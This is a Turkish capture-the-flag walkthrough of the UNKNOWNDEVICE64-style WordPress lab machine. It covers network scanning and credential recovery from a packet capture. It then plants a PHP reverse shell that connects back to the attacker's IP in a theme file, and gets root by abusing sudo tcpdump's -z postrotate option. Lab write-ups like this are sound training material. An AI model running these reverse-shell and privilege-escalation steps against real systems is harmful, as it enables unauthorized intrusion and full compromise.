


# UNKNOWNDEVICE64-V1 Kutusunun Çözümü
**Yazar:**Beren Kuday GÖRÜN
**Tarih:**10.05.2019
**IP:**192.168.171.136
**Not:**Kutunun indirme adresi 'kutu' isimli klasöre eklenmiştir.
**Flag:** /root/flag.txt'yi oku
**Sayfa:**

## 1.	Bilgi Toplama

### 1.1 IP Tespiti
```sh
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9.5 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.171.1	00:50:56:c0:00:08	VMware, Inc.
192.168.171.2	00:50:56:ff:0c:9c	VMware, Inc.
192.168.171.140	00:0c:29:8b:15:9e	VMware, Inc.
192.168.171.254	00:50:56:f3:88:2b	VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.5: 256 hosts scanned in 2.744 seconds (93.29 hosts/sec). 4 responded
```
Hedef makinenin IP adresi 192.168.171.140


### 1.2	Servis Tespiti:
```sh
root@kali:~# nmap -p- -A 192.168.171.140
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-10 07:40 EDT
Nmap scan report for 192.168.171.140
Host is up (0.00088s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:ac:73:4c:17:ec:6a:82:79:87:5a:f9:22:d4:12:cb (RSA)
|   256 9c:d5:f3:2c:e2:d0:06:cc:8c:15:5a:5a:81:5b:03:3d (ECDSA)
|_  256 ab:67:56:69:27:ea:3e:3b:33:73:32:f8:ff:2e:1f:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 4.9.8
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Example site &#8211; Just another WordPress site
MAC Address: 00:0C:29:8B:15:9E (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.88 ms 192.168.171.140

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.08 seconds
```

80. ve 22. port açık olduğu görülmültür. 80. porta gidildiğinde internet sayfasının bir *wordpress* sayfası olduğu anlaşılmıştır. 
## 2	Zayıflık Tarama
`wpscan` aracı ile yaptığım taramalar sonucu şimdilik çok net bir şey bulamadım. Diğer yollara başvuracağım ve hiç bir şey bulamazsam buraya geri döneceğim. İlk olarak dizin keşfi yapalım.
```sh
root@kali:~# dirb http://192.168.171.140

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri May 10 09:02:59 2019
URL_BASE: http://192.168.171.140/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.171.140/ ----
+ http://192.168.171.140/index.php (CODE:301|SIZE:0)                                                                                                                                                              
==> DIRECTORY: http://192.168.171.140/ipdata/                                                                                                                                                                     
+ http://192.168.171.140/server-status (CODE:403|SIZE:303)                                                                                                                                                        
==> DIRECTORY: http://192.168.171.140/wp-admin/                                                                                                                                                                   
==> DIRECTORY: http://192.168.171.140/wp-content/                                                                                                                                                                 
==> DIRECTORY: http://192.168.171.140/wp-includes/                                                                                                                                                                
+ http://192.168.171.140/xmlrpc.php (CODE:405|SIZE:42)                                                                                                                                                            
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/ipdata/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/ ----
+ http://192.168.171.140/wp-admin/admin.php (CODE:302|SIZE:0)                                                                                                                                                     
==> DIRECTORY: http://192.168.171.140/wp-admin/css/                                                                                                                                                               
==> DIRECTORY: http://192.168.171.140/wp-admin/images/                                                                                                                                                            
==> DIRECTORY: http://192.168.171.140/wp-admin/includes/                                                                                                                                                          
+ http://192.168.171.140/wp-admin/index.php (CODE:302|SIZE:0)                                                                                                                                                     
==> DIRECTORY: http://192.168.171.140/wp-admin/js/                                                                                                                                                                
==> DIRECTORY: http://192.168.171.140/wp-admin/maint/                                                                                                                                                             
==> DIRECTORY: http://192.168.171.140/wp-admin/network/                                                                                                                                                           
==> DIRECTORY: http://192.168.171.140/wp-admin/user/                                                                                                                                                              
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-content/ ----
+ http://192.168.171.140/wp-content/index.php (CODE:200|SIZE:0)                                                                                                                                                   
==> DIRECTORY: http://192.168.171.140/wp-content/plugins/                                                                                                                                                         
==> DIRECTORY: http://192.168.171.140/wp-content/themes/                                                                                                                                                          
==> DIRECTORY: http://192.168.171.140/wp-content/uploads/                                                                                                                                                         
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/network/ ----
+ http://192.168.171.140/wp-admin/network/admin.php (CODE:302|SIZE:0)                                                                                                                                             
+ http://192.168.171.140/wp-admin/network/index.php (CODE:302|SIZE:0)                                                                                                                                             
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-admin/user/ ----
+ http://192.168.171.140/wp-admin/user/admin.php (CODE:302|SIZE:0)                                                                                                                                                
+ http://192.168.171.140/wp-admin/user/index.php (CODE:302|SIZE:0)                                                                                                                                                
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-content/plugins/ ----
+ http://192.168.171.140/wp-content/plugins/index.php (CODE:200|SIZE:0)                                                                                                                                           
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-content/themes/ ----
+ http://192.168.171.140/wp-content/themes/index.php (CODE:200|SIZE:0)                                                                                                                                            
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.171.140/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri May 10 09:03:37 2019
DOWNLOADED: 32284 - FOUND: 12

```
Genelde klasörler wordpress'e ait klasörler ancak `http://192.168.171.140/ipdata/` isimli klasör biraz ilginç geldi tarayıcı üzerinden adrese gittiğimde bir `.cap` dosyası gördüm. `Wireshark` aracı ile bu dosyayı incelemeye başlayalım.

<div align="center">
    
</div>

Analiz esnasında post metodu ile gönderilmiş bir istek gördüm ve bu istek tamda istenildiği gibi `wp-login.php` adresine yapılmış. Paket içerisini görüntüleyerek kullanıcı adı ve şifreyi görebiliriz.
`Kullanıcı adı`webdeveloper
`Şifre`Te5eQg&4sBS!Yr$)wf%(DcAd

Post datası içerisinde `key-value` kısımlarının sağlamasını login ekranından yararlanarak yapabiliriz. Görüldüğü üzere html formu içerisinde `name` kısımları ile paket içerisindeki `key` kısımları uyuşmaktadır.

<div align="center">
    
</div>

Şimdi bu kullanıcı adı ve şifre ile sisteme giriş yapalım. Buradan sonrasında işimiz reverse shell almak olacaktır. Makine bir linux makinesi olduğu için ve eğer kali kullanıyorsanız */usr/share/webshells/php/php-reverse-shell.php* yolundaki kodu kullanarak reverse alabilirsiniz. Bu kodu ayrıca *dosyalar* klasörüne ekledim. Kodda değiştirmemiz gereken noktalar var bunlar bağantının geri döneceği IP adresi ya bizim IP adresimiz. İstersek port numarasını da değiştirebiliriz...
Kod içerisinde değişiklik yapılan yerleri yorum satırı halinde aşağıda belirttim.
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.171.136';  // Bu kısıma kendi IP adresimizi yazıyoruz
$port = 1822;       // İstediğimiz port numarasını yazıyoruz
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Şimdi bu kodu karşı tarafa yükleyelim. Bunun için sisteme gidikten sonra `Appearance` -> `Editor` -> `404.php dosyasını seçelim` -> `Kodumuzu kopyalayıp bu kısma yapıştıralım` -> `Değişiklikleri kaydedelim`
**Not** Select theme to edit: kısmında `Twenty Sizteen` seçili olduğuna dikkat edelim. Yoksa işlemimiz başarılı olmayacaktır.

Şimdi `nc` ile bir dinleme başlatalım.
```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...
```
Daha sonra tarayıcı üzerinden `http://192.168.171.140/wp-content/themes/twentysixteen/404.php` adresine gidelim ve *reverse shell php* kodumuzu tetikleyelim.

```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...
192.168.171.140: inverse host lookup failed: Unknown host
connect to [192.168.171.136] from (UNKNOWN) [192.168.171.140] 54428
Linux webdeveloper 4.15.0-47-generic #50-Ubuntu SMP Wed Mar 13 10:44:52 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:47:16 up 51 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Evet içerdeyiz!

## 4	Yetki Yükseltme
```sh
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
webdeveloper:x:1000:1000:WebDeveloper:/home/webdeveloper:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
Görüldüğü üzere webdeveloper isimli bir kullanıcı bulunmaktadır. Biraz araştırma yaptıktan sonra veritabanını kontrol ettim. Çünkü wordpress ile mysql olmazsa olmazlardır ve belki oradan başka bir kullanıcı bulabilirim diye düşündüm. Ne yazık ki wordpress'de denemiş olduğum şifre ssh için geçerli olmadı.
Şimdi veritabanına bakalım ancak bunun için ilk başta veritabanı bağlantı bilgilerini bilmemiz gerekmektedir. 

`var/www/html/` klasörü altında wp-config.php dosyasının içine baktığımızda:

```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

Artık mysql bağlantısı gerçekleştirebiliriz. Ancak bir saniye... BUrada DB_USER olarak yine **webdeveloper** kullanılmış ve şifre olarak **MasterOfTheUniverse** kullanılmış. Bu kullanıcıya ait artık yeni bir şifremiz var. ssh için tekrar deneyelim...

```sh
root@kali:~# ssh webdeveloper@192.168.171.140 
webdeveloper@192.168.171.140's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-47-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri May 10 14:14:41 UTC 2019

  System load:  0.0                Processes:           160
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 40%                IP address for eth0: 192.168.171.140
  Swap usage:   0%

 * Ubuntu's Kubernetes 1.14 distributions can bypass Docker and use containerd
   directly, see https://bit.ly/ubuntu-containerd or try it now with

     snap install microk8s --classic

214 packages can be updated.
105 updates are security updates.


Last login: Tue Oct 30 09:25:27 2018 from 192.168.1.114
webdeveloper@webdeveloper:~$ 

```
Evet `webdeveloper` kullanıcısı ile içerdeyiz.

```sh
webdeveloper@webdeveloper:~$ find / -perm u=s 2> /dev/null 
```
İlk olarak suid id'si etkin olan dosyaları bulmak istedim belki bir şekilde root olabilir diye ancak bir sonuç çıkmadı. Bunun üzerine sudo -l komutunu denedim.
ve tcpdum uygulamasını gördüm. Bu şekilde webdeveloper kullanıcısı sudo komutu aracılığı ile tcpdump uygulmasını root olarak çalıştırabilmektedir.


```sh
webdeveloper@webdeveloper:~$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump

```
Doğruyu söylemek gerekirse tcpdump ile ilk olarak ne yapacağımı bilemedim. Bundan dolayı -h komutunu uyguladım.
```sh
webdeveloper@webdeveloper:/usr/sbin$ sudo tcpdump -h
tcpdump version 4.9.2
libpcap version 1.8.1
OpenSSL 1.1.0g  2 Nov 2017
Usage: tcpdump [-aAbdDefhHIJKlLnNOpqStuUvxX#] [ -B size ] [ -c count ]
		[ -C file_size ] [ -E algo:secret ] [ -F file ] [ -G seconds ]
		[ -i interface ] [ -j tstamptype ] [ -M secret ] [ --number ]
		[ -Q in|out|inout ]
		[ -r file ] [ -s snaplen ] [ --time-stamp-precision precision ]
		[ --immediate-mode ] [ -T type ] [ --version ] [ -V file ]
		[ -w file ] [ -W filecount ] [ -y datalinktype ] [ -z postrotate-command ]
		[ -Z user ] [ expression ]
webdeveloper@webdeveloper:/usr/sbin$ 
```
`-z postrotate-command` bu parametreyi internette araştırdık sonra sh komutu çalıştırabileceğimi anladım. Aklıma ilk olarak sisteme sızarken kullandığım reverse shell php kodu geldi. Bunu bir dosyaya sh kodu olarak kaydederek devam edelim.
```sh
webdeveloper@webdeveloper:/usr/sbin$ echo $'php /var/www/html/wp-content/themes/twentysixteen/404.php' > /home/webdeveloper/sonuc
```
```sh
webdeveloper@webdeveloper:/usr/sbin$ more /home/webdeveloper/sonuc 
php /var/www/html/wp-content/themes/twentysixteen/404.php
```
Evet şimdi bu dosyayı çalıştırılmaya uygun bir hale getirelim.

```sh
webdeveloper@webdeveloper:/usr/sbin$ chmod +x /home/webdeveloper/sonuc
```
```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...

```
Dinleme noktamızı açtıktan sonra artık  aşağıdaki kodu çalıştıralım. Burada neden php reverse shell kodunu kullandığımı merak edebiliyor olabilirsiniz nc ve bash ile deneme yaptığımda başarılı olamadım. Aklıma daha sonrasında php geldi.
```sh
webdeveloper@webdeveloper:/usr/sbin$ sudo tcpdump -w /dev/null  -z /home/webdeveloper/sonuc -Z root -i eth0  -G 5
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Successfully opened reverse shell to 192.168.171.136:1822
PHP Warning:  fsockopen(): unable to connect to 192.168.171.136:1822 (Connection refused) in /var/www/html/wp-content/themes/twentysixteen/404.php on line 100
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Connection refused (111)
PHP Warning:  fsockopen(): unable to connect to 192.168.171.136:1822 (Connection refused) in /var/www/html/wp-content/themes/twentysixteen/404.php on line 100
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Connection refused (111)
PHP Warning:  fsockopen(): unable to connect to 192.168.171.136:1822 (Connection refused) in /var/www/html/wp-content/themes/twentysixteen/404.php on line 100
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Connection refused (111)
```
Şimdi yazdığımız komutu biraz inceleyelim. `-Z` ile kullanıcı belirtiyoruz. Tabiki de root olması gerekmektedir. `-i` interface eth0 bu sizde farklı olabilir `ifconfig` komutu ile bunu kontrol edebilirsiniz. `-z` çalıştırılacak olan dosyamız içerisinde `php /var/www/html/wp-content/themes/twentysixteen/404.php` kodu var. `-w` ise ekran çıktılarının nereye yönlendirileceğini söylüyoruz. */dev/null* ile direkt olarak aslında çıktılar temizlemiş oluyoruz. Gömülü sistemler çalışan kişilerin linuxta çok aşina olduğu bir device'tır. Son olarak `-G` parametresi kodun ne kadar sıklıkla çalıştırılacağını saniye cinsinden belirtiyoruz. Bunu php reverse shell'in çalışması derlenmesi gibi aşamaları bitmesini beklemek için 5 saniye olarak verdim. Shell geldikten sonra tcpdump tarafında Connection refused(111) çıktısı 5sn'de bir belirecektir. Bunun sebebi artık hedef portun el sıkışmasından kaynaklanmaktadır. PHP Warning çıktısında da bu görülmektedir. Açıklamaları yaptıktan sonra shell kısmına geri dönelim. Evet reverse shell'imizi elde ettik!

```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...
192.168.171.140: inverse host lookup failed: Unknown host
connect to [192.168.171.136] from (UNKNOWN) [192.168.171.140] 53962
Linux webdeveloper 4.15.0-47-generic #50-Ubuntu SMP Wed Mar 13 10:44:52 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 15:19:59 up  1:35,  1 user,  load average: 0.14, 0.10, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
webdevel pts/0    192.168.171.136  13:46   13.00s  2.21s  0.08s sshd: webdeveloper [priv]
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

```sh
# cd /root
# ls
flag.txt
# cat flag.txt
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```


### Kaynaklar:### 

https://unix.stackexchange.com/questions/509480/tcpdump-z-postrotate-command-with-shell-script
